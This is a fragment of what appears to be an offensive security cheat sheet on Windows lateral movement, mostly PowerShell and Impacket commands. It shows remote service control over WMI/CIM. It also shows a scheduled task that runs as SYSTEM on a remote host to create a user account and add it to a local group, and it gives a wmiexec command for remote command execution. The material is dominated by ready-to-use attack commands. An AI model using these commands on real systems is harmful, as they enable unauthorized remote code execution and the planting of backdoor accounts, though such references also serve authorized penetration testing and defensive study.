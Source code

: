 ```powershell

Invoke-CimMethod -InputObject $Service -MethodName StartService

# Stop the service

Invoke-CimMethod -InputObject $Service -MethodName StopService

# Delete service

Invoke-CimMethod -InputObject $Service -MethodName Delete
```

#### 2.2.3 - Schedule Tasks

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

$Command = "cmd.exe"

$Args = "/c net user <username> <password> /add & net localgroup `"<local_group>`" <username> /add /y"

# Create new schedule task

$Action = New-ScheduleTaskAction -CimSession $Session -Execute $Command $Argument $Args

Register-ScheduleTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "<schedule_taskname>"

# Execute schedule task

Start-ScheduleTask -CimSession $Session -TaskName "<schedule_taskname>"

# Delete schedule task

Unregister-ScheduleTask -CimSession $Session -TaskName "<schedule_taskname>"
```

## 03 - Impacket

- Authenticate via impacket script with WMIExec

`$ wmiexec <username>:<password>@<IP> [-codecs <codec>]`
